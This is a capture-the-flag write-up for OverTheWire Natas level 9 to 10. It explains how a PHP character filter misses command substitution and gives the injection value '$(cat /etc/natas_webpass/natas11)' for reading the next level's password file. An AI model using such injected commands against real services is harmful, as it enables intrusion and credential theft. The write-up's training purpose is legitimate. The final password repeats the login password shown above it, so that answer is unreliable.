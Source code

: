 # [Level 09 to 10](https://overthewire.org/wargames/natas/natas10.html) - Command injection

- Login
```
URL: http://natas10.natas.labs.overthewire.org
Username: natas10
Password: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```
- Exercise:
![image](https://github.com/user-attachments/assets/28feaf2b-7da8-4bc8-8ed4-10638e1f5cc5)
![image](https://github.com/user-attachments/assets/a963c2bd-767f-4ce2-b1d8-b1012d02c02e)

- Background:
- Solution:
  - Executes a shell command using user input `$key`, after filtering for three characters:
  ``` php
  if(preg_match('/[;|&]/',$key)) {
    print "Input contains an illegal character!";
  ```
  - `;`, `|` and `&` are blocked, but we can still inject commands like `$(...)` and `...`
  - Enter in input field: `$(cat /etc/natas_webpass/natas11)`
- Password: `t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`
